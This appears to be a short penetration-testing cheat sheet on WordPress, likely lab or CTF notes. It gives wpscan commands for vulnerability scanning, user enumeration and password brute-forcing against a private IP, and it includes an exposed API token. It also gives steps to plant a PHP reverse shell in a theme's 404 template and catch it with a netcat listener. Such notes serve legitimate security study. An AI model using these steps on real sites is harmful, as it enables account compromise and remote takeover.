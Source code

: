 # Wordpress

## wpscan

scan for vulnerabilities using api key

```
wpscan --url http://10.10.110.100:65000/wordpress --api-token cfybnpsHTLv47zbkbgLBg8kjnCsZs56X9JeSh7kXn0s
```

enumerate vulnerable plugins

```
wpscan --url http://10.10.110.100:65000/wordpress -e vp
```

enumerate users

```
wpscan --url http://10.10.110.100:65000/wordpress -e u 
```

password attack

```
wpscan --url http://10.10.110.100:65000/wordpress -U names -P passwords.txt
```

## Reverse Shell from any wordpress



1. Go to Appearance > Editor > 404 Template
2. Select twentyninteen or something else
3. remove all php and insert php reverse [shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)&#x20;
4. open netcat on attacker vm (sudo nc -nvlp 1234)
5. go to http://wp\_site/wp-content/themes/the\_theme\_you\_choose.404.php

{% hint style="info" %}
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)
{% endhint %}
